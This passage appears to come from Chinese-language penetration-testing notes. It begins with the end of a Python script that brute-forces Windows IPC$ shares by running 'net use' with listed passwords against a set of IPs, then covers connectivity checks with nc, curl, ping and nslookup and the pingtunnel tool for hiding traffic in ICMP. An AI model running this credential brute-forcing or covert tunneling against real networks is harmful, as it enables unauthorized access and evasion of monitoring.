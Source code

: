 ```python
​    'admin!@#45',

​    'Admin12345'

}



for ip in ips:

​    for user in users:

​        for mima in passs:

​            exec="net use \\"+ "\\"+ip+'\ipc$ '+mima+' /user:god\\'+user

​            print('--->'+exec+'<---')

​            os.system(exec)

​            time.sleep(1)
```





网络传输应用层检测连通性-检测

1. TCP 协议

用“瑞士军刀”——netcat

执行 nc 命令：nc <IP> <端口>

2. HTTP 协议

用“curl”工具，执行curl <IP地址:端口>命令。如果远程主机开启了相应的端口，且内网可连接外网的话，就会输出相应的端口信息

3. ICMP 协议

用“ping”命令，执行ping <IP地址/域名>

4. DNS 协议

检测DNS连通性常用的命令是“nslookup”和“dig”

nslookup 是windows自带的DNS探测命令

dig是linux系统自带的DNS探测命令



网络层ICMP隧道ptunnel使用-检测,利用

kali2020-Target2-Target3

pingtunnel是把tcp/udp/sock5流量伪装成icmp流量进行转发的工具

-p ##表示连接icmp隧道另一端的机器IP（即目标服务器）
